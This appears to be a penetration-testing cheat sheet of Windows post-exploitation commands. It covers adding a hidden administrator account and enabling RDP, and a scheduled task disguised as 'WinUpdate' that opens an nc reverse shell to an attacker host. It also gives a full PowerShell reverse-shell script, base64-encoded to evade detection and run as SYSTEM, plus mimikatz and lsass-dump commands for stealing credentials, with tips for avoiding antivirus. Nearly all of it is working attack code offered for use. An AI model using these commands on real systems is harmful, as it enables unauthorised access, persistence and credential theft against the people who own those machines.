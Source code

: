 #### Add New Administrator
###### Create New User
`net user admin2 Password123! /add`
###### Add User to Administrators Group
`net localgroup administrators admin2 /add`
###### Add User to Remote Desktop Users
`net localgroup "Remote Desktop Users" admin2 /add`
###### Modify Registry to allow RDP
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
###### Allow RDP on Firewall
`netsh advfirewall firewall set rule group="Remote Desktop" new enable=yes`
###### Force Policy Update
`gpupdate /force`

---
#### Schedule A Reverse Shell
###### Create a scheduled task to trigger a reverse shell with nc
`schtasks /create /tn "WinUpdate" /tr "C:\temp\nc.exe -e cmd.exe <attacker-ip> <port>" /sc minute /mo 1 /ru SYSTEM`
###### Test run task
`schtasks /run /tn "WinUpdate"`
###### Delete scheduled task
`schtasks /delete /tn "WinUpdate" /f`

##### With PowerShell
###### PowerShell Script
```
$TaskName = "WinUpdate"

# Define the PowerShell reverse shell payload
$Payload = '$client = New-Object System.Net.Sockets.TCPClient("<attacker-ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

# Base64 encode the payload (bypasses command-line detection)
$EncodedPayload = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($Payload))

# Create the scheduled task action
$Action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NoP -NonI -W Hidden -Enc $EncodedPayload"

# Set the trigger to run every minute
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).AddMinutes(1) -RepetitionInterval (New-TimeSpan -Minutes 1) -RepetitionDuration (New-TimeSpan -Hours 24)

# Set the task to run as SYSTEM
$Principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount

# Task settings (runs on battery, doesn't stop on power issues)
$Settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries

# Register the scheduled task
Register-ScheduledTask -TaskName $TaskName -Action $Action -Trigger $Trigger -Principal $Principal -Settings $Settings

```
**Note:** Remove SYSTEM line if you don't want SYSTEM access.
###### Register the Task
`.\reverse-task.ps1`
###### Start the Task Manually
`Start-ScheduledTask -TaskName "WinUpdate"`
###### Stop the Scheduled Task
`Unregister-ScheduledTask -TaskName "WinUpdate" -Confirm:$false`

---
#### Dump Credentials
###### mimikatz credentials dump
`.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit`
**Note:** Mimikatz can also be found in PowerSploit.ps1 as Invoke-Mimikatz.ps1
[[2.3.4 Lateral Movement#Pass the Hash|Exploitation]]
###### Extract all Kerberos tickets from memory
`.\mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"`
[[2.3.4 Lateral Movement#Pass the Ticket|Exploitation]]
##### Run in Memory
###### From Network Share
`Invoke-Command -ComputerName <target-ip> -ScriptBlock { \\<attacker-ip>\tools\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit }`
###### Base64 Encoded
`$b64 = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\temp\tools\mimikatz.exe"))`
**Note:** This Base64 encodes the executable.
`[System.IO.File]::WriteAllBytes("C:\Windows\Temp\m.exe", [Convert]::FromBase64String("<Base64-Encoded-Mimikatz>")) Start-Process "C:\Windows\Temp\m.exe" -ArgumentList "privilege::debug sekurlsa::logonpasswords exit"`
###### procdump.exe
`procdump.exe -accepteula -ma lsass.exe lsass.dmp`
**Note:** Now use mimikatz on a separate machine to avoid AV issues.
###### rundll32.exe
`rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump lsass.exe C:\Windows\Temp\lsass.dmp full`
**Note:** Now use mimikatz on a separate machine to avoid AV issues.
###### mimikatz to interrogate lsass.dmp
`sekurlsa::minidump C:\path\to\lsass.dmp`
`sekurlsa::logonpasswords`

